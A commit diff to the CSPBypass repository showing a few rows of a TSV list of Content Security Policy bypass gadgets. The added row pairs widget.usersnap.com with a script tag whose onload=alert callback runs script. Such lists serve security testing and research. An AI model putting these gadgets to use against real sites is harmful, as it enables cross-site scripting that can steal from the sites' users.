

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Added by widget.usersnap.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -150,2 +150,3 @@ visitor.pixplug.in	<script src="https://visitor.pixplug.in/jsonp/getdata.php?cal
 wb.amap.com	<script src="https://wb.amap.com/channel.php?callback=alert"></script>
+widget.usersnap.com	<script src="https://widget.usersnap.com/load/d5abc654-0976-45b9-8074-fa5e721db433?onload=alert"></script>
 widgets.pinterest.com	<script src="https://widgets.pinterest.com/v3/pidgets/boards/ciciwin/hedgehog-squirrel-crafts/pins/?callback=alert"></script>
```
